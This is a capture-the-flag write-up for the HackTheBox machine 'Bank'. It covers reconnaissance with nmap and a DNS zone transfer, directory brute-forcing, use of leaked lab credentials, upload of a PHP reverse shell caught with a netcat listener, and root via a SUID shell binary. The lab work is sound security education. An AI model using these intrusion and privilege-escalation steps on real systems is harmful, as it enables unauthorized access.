

# Bank - A HackTheBox machine

The entire exploitation of this machine depends on:

- reconnaissance phase: being able to determine that some "dns digging" or "/etc/host" changes must be done. Also, there is some guessing. You need to assume that bank.htb is a valid domain for a dns transfer... mmm weird.
- enumeration phase: using the right dictionary to locate a data breach with password for accessing.

Later on, other skills are appreciated, such as reading comments on source code. 

## User's flag

### Reconnaisance

```bash
nmap -sV -sC -Pn  -p-
```

Results:

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 08eed030d545e459db4d54a8dc5cef15 (DSA)
|   2048 b8e015482d0df0f17333b78164084a91 (RSA)
|   256 a04c94d17b6ea8fd07fe11eb88d51665 (ECDSA)
|_  256 2d794430c8bb5e8f07cf5b72efa16d67 (ED25519)
53/tcp open  domain  ISC BIND 9.9.5-3ubuntu0.14 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.9.5-3ubuntu0.14-Ubuntu
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
| http-title: HTB Bank - Login
|_Requested resource was login.php
|_http-server-header: Apache/2.4.7 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Let's check UDP connections to port 53:

```bash
sudo nmap -sU -sC -sV -Pn 10.129.29.200 -p53
```

Results:

```
PORT   STATE SERVICE VERSION
53/udp open  domain  ISC BIND 9.9.5-3ubuntu0.14 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.9.5-3ubuntu0.14-Ubuntu
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```


Open browser and examine http://10.129.29.200 and an Apache web server banner.

Since the DNS server is running on port 53 TCP/UDP, we can attempt a zone transfer. However, it is worth noting that guessing bank.thb as a valid zone for this transfer is not a very realistic or scientific approach to penetration testing. Nevertheless, since this is HackTheBox and we are playing this game, let's allow ourselves to go with the flow.

Go here for "[digging more into DNS transfer zones](dig.md)".

```shell
dig axfr bank.htb @10.129.29.200
```

Results:

```
; <<>> DiG 9.18.12-1-Debian <<>> axfr bank.htb @10.129.29.200
;; global options: +cmd
bank.htb.               604800  IN      SOA     bank.htb. chris.bank.htb. 6 604800 86400 2419200 604800
bank.htb.               604800  IN      NS      ns.bank.htb.
bank.htb.               604800  IN      A       10.129.29.200
ns.bank.htb.            604800  IN      A       10.129.29.200
www.bank.htb.           604800  IN      CNAME   bank.htb.
bank.htb.               604800  IN      SOA     bank.htb. chris.bank.htb. 6 604800 86400 2419200 604800
```

Add those results to /etc/hosts:

```bash
echo "10.129.29.200   bank.htb chris.bank.htb ns.bank.htb www.bank.htb" | sudo tee -a /etc/hosts 
```

### Enumeration

```bash
whatweb http://bank.htb
```

Results:

```
http://bank.htb [302 Found] Apache[2.4.7], Bootstrap, Cookies[HTBBankAuth], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.7 (Ubuntu)], IP[10.129.29.200], JQuery, PHP[5.5.9-1ubuntu4.21], RedirectLocation[login.php], Script, X-Powered-By[PHP/5.5.9-1ubuntu4.21]                                                                                                       
http://bank.htb/login.php [200 OK] Apache[2.4.7], Bootstrap, Cookies[HTBBankAuth], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.7 (Ubuntu)], IP[10.129.29.200], JQuery, PHP[5.5.9-1ubuntu4.21], PasswordField[inputPassword], Script, Title[HTB Bank - Login], X-Powered-By[PHP/5.5.9-1ubuntu4.21]
```

After browsing the site, reading the source code and trying some SQL injections, let's do some more enumeration.

```bash
gobuster dir -u http://bank.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
```

Results:

```
/uploads              (Status: 301) [Size: 305] [--> http://bank.htb/uploads/]
/assets               (Status: 301) [Size: 304] [--> http://bank.htb/assets/]
/inc                  (Status: 301) [Size: 301] [--> http://bank.htb/inc/]
/server-status        (Status: 403) [Size: 288]
/balance-transfer     (Status: 301) [Size: 314] [--> http://bank.htb/balance-transfer/]

```

We have  a data breach under http://bank.htb/balance-transfer/

### Exploitation

Browsing that exposed URL we can filter columns by size. That would be a quick way to spot the file that contains the credentials (it has a different size from the others). Again, this is HackTheBox and not the reality. In the real world you would probably download as silently as possible all the files, for further processing.  

But this is HackTheBox and we have credentials to proceed to the next step. Login into the dashboard http://bank.htb/login.php:

```
--ERR ENCRYPT FAILED
+=================+
| HTB Bank Report |
+=================+

===UserAccount===
Full Name: Christos Christopoulos
Email: chris@bank.htb
Password: !##HTBB4nkP4ssw0rd!##
CreditCards: 5
Transactions: 39
Balance: 8842803 .
===UserAccount===
```

Browsing around a little, and reading source code, you can easily find a valuable debug comment:



With this, I just modified my [pentesmonkey](pentesmonkey.md) file to extension .htb and had it uploaded. Under column "Attachment" in the dashboard, you have the link to the uploaded file.

Start a netcat listener:

```bash
nc -lnvp 1234
```

In my case, I clicked on http://bank.htb/uploads/pentesmonkey.htb and got a reverse shell.

Cat the user.txt


## Flag root.txt

After some basic reconnaissance, I run:

```bash
find / -perm /4000 2>/dev/null
```

And results:

```
/var/htb/bin/emergency
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/policykit-1/polkit-agent-helper-1
...
```

`/var/htb/bin/emergency` catches our attention inmediately. Doing a strings on it we can see that it contains a "/bin/bash" command. After resolving this machine, I read [this writeup](https://0xdf.gitlab.io/2020/07/07/htb-bank.html#emergency) and got some insights about how to investigate an elf file beyond doing some strings. In this writeup, a md5sum is done and googling the hash returned that this elf file is in reality a dash shell.

Nice. Run the binary and you are root.

```bash
./var/htb/bin/emergency
```
